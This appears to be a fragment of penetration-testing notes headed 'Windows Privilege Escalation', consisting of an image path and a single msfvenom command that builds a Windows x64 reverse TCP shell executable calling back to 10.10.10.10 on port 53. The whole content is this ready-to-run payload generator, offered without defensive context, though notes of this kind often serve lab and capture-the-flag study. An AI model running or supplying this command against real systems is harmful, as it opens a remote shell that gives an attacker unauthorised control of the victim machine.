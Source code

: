 # Windows Privilege Escalation

## Creating a Reverse Shell Executable (.exe)
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

